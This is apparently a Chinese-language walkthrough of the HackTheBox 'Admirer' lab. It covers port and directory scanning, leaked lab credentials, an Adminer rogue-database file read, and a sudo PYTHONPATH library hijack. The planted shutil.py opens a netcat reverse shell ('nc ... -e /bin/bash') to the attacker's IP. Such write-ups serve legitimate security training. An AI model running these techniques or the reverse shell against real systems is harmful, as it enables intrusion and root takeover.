



HTB-Admirer¶
0x01 nmap scan¶
nmap -sS -Pn -T4 -n --open -p- 10.10.10.187
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
80/tcp open http
0x02 目录遍历¶
- robots.txt
User-agent: *
# This folder contains personal contacts and creds, so no one -not even robots- should see it - waldo
Disallow: /admin-dir
-
dirsearch未发现可疑
-
使用wfuzz遍历
wfuzz -c -z file,/usr/share/dirb/wordlists/big.txt -z list,html-txt-php --hc 404,403 -u http://10.10.10.187/admin-dir/FUZZ.FUZ2Z -t 100
===================================================================
ID Response Lines Word Chars Payload
===================================================================
000015593: 200 29 L 39 W 350 Ch "contacts - txt"
000016328: 200 11 L 13 W 136 Ch "credentials - txt"
- contacts.txt文件的内容是
##########
# admins #
##########
# Penny
Email: p.wise@admirer.htb
##############
# developers #
##############
# Rajesh
Email: r.nayyar@admirer.htb
# Amy
Email: a.bialik@admirer.htb
# Leonard
Email: l.galecki@admirer.htb
#############
# designers #
#############
# Howard
Email: h.helberg@admirer.htb
# Bernadette
Email: b.rauch@admirer.htb
- credentials.txt文件内容
``` [Internal mail account] w.cooper@admirer.htb fgJr6q#S\W:$P
[FTP account] ftpuser %n?4Wz}R$tTF7
[Wordpress account] admin w0rdpr3ss01! ```
0x03 FTP¶
- credentials.txt文件中存在ftp账号密码:ftpuser:%n?4Wz}R$tTF7
root@kali:~# ftp 10.10.10.187
Connected to 10.10.10.187.
220 (vsFTPd 3.0.3)
Name (10.10.10.187:root): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r-- 1 0 0 3405 Dec 02 2019 dump.sql
-rw-r--r-- 1 0 0 5270987 Dec 03 2019 html.tar.gz
226 Directory send OK.
-
下载html.tar.gz和dump.sql文件，解压后查看
-
html主要目录结构如图：
- db_admin.php存在数据库账号密码
$servername = "localhost";
$username = "waldo";
$password = "]F7jLHw:*G>UPrTo}~A"d6b";
$dbname = "admirerdb";
0x04 utility-scripts目录¶
- 扫描utility-scripts目录
python3 dirsearch/dirsearch.py -u http://10.10.10.187/utility-scripts/ -e * -i 200
[22:24:45] Starting:
[22:25:13] 200 - 4KB - /utility-scripts/adminer.php
[22:25:42] 200 - 83KB - /utility-scripts/info.php
- 发现adminer.php文件

0x05 漏洞利用¶
-
adminer数据库管理页面 4.6.2版本存在漏洞
-
具体漏洞详情，见此
-
该漏洞主要是adminer.php可以外连任意数据库导致
-
在自己本地机器创建test用户以及admirer数据库和数据表
-
本地启动mysql服务
-
在adminer页面连接自己启动的数据库
- 成功登录
-
通过adminer.php读取文件
-
在之前发现info.php文件中发现open_basedir限制，只能读取/var/www/html目录下的文件
-
尝试读取index.php文件，并存入test表
load data local infile './index.php'
info table test
fields terminated by "/n"
- 查询test表内容
select * from test

- 在index.php中发现如下账号密码
$servername = "localhost";
$username = "waldo";
$password = "&<h5b~yK3F#{PaPB&dA}{H>";
$dbname = "admirerdb";
- 尝试使用该密码登录ssh
0x06 提权¶
- sudo -l
waldo@admirer:~$ sudo -l
[sudo] password for waldo:
Matching Defaults entries for waldo on admirer:
env_reset, env_file=/etc/sudoenv, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always
User waldo may run the following commands on admirer:
(ALL) SETENV: /opt/scripts/admin_tasks.sh
- 查看/opt/scripts/admin_tasks.sh文件
backup_web()
{
if [ "$EUID" -eq 0 ]
then
echo "Running backup script in the background, it might take a while..."
/opt/scripts/backup.py &
else
echo "Insufficient privileges to perform the selected operation."
fi
}
-
其中backup_web()函数调用执行了/opt/scripts/backup.py脚本
-
backup.py的内容为
#!/usr/bin/python3
from shutil import make_archive
src = '/var/www/html/'
# old ftp directory, not used anymore
#dst = '/srv/ftp/html'
dst = '/var/backups/html'
make_archive(dst, 'gztar', src)
-
通过python库劫持来提权，脚本调用了shutil库
-
查询python库路径
waldo@admirer:~$ python3 -c 'import sys;print("\n".join(sys.path))'
/usr/lib/python35.zip
/usr/lib/python3.5
/usr/lib/python3.5/plat-x86_64-linux-gnu
/usr/lib/python3.5/lib-dynload
/usr/local/lib/python3.5/dist-packages
/usr/lib/python3/dist-packages
- 在/tmp/pypath目录下伪造shutil.py文件
/tmp/pypath
waldo@admirer:/tmp/pypath$ cat shutil.py
import os
def make_archive(a, b, c):
os.system("nc 10.10.15.58 80 -e '/bin/bash'")
- 通过pythonpath指定库路径，并执行
waldo@admirer:/tmp/pypath$ sudo PYTHONPATH=/tmp/pypath /opt/scripts/admin_tasks.sh
[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
Running backup script in the background, it might take a while...
